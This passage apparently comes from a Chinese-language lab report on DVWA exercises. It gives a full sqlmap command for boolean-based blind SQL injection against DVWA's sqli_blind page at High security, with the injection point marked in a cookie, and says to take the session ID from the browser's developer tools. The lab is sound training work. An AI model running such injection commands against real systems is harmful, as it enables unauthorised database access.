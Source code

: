 <img src="综合实践VI.assets/image-20250506095340824.png" alt="image-20250506095340824" style="zoom: 50%;" />

7. **Vulnerability: SQL Injection (Blind)**  

**Level: High**

使用kali虚拟机自带的sqlmap工具,`sqlmap -u "http://ip:port/dvwa/vulnerabilities/sqli_blind/" --cookie="id=1*; 
 PHPSESSID=b2g89kkbs4b3rlr5napq2uk3am; security=high" --dbms=MySQL --technique=B --random-agent --flush-session -v 3`  

其中cookie字段的PHPSESSID需要按*F12*自行查看  
